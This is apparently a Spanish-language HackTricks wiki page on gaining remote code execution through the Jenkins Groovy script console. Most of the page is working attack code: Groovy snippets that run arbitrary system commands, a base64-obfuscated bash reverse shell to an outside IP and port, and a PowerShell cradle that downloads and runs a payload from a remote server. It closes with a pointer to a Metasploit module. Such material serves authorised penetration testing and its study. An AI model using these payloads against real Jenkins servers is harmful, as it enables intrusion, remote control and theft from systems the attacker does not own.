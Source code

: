 # Jenkins RCE con Script Groovy

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}

## Jenkins RCE con Script Groovy

Esto es menos ruidoso que crear un nuevo proyecto en Jenkins

1. Ve a _path\_jenkins/script_
2. Dentro del cuadro de texto introduce el script
```python
def process = "PowerShell.exe <WHATEVER>".execute()
println "Found text ${process.text}"
```
Podrías ejecutar un comando usando: `cmd.exe /c dir`

En **linux** puedes hacer: **`"ls /".execute().text`**

Si necesitas usar _comillas_ y _comillas simples_ dentro del texto. Puedes usar _"""PAYLOAD"""_ (tres comillas dobles) para ejecutar la carga útil.

**Otro script groovy útil** es (reemplaza \[INSERT COMMAND]):
```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = '[INSERT COMMAND]'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```
### Shell inversa en Linux
```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMi80MzQzIDA+JjEnCg==}|{base64,-d}|{bash,-i}'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```
### Reverse shell en Windows

Puedes preparar un servidor HTTP con un PS reverse shell y usar Jeking para descargarlo y ejecutarlo:
```python
scriptblock="iex (New-Object Net.WebClient).DownloadString('http://192.168.252.1:8000/payload')"
echo $scriptblock | iconv --to-code UTF-16LE | base64 -w 0
cmd.exe /c PowerShell.exe -Exec ByPass -Nol -Enc <BASE64>
```
### Script

Puedes automatizar este proceso con [**este script**](https://github.com/gquere/pwn\_jenkins/blob/master/rce/jenkins\_rce\_admin\_script.py).

Puedes usar MSF para obtener un shell reverso:
```
msf> use exploit/multi/http/jenkins_script_console
```
{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
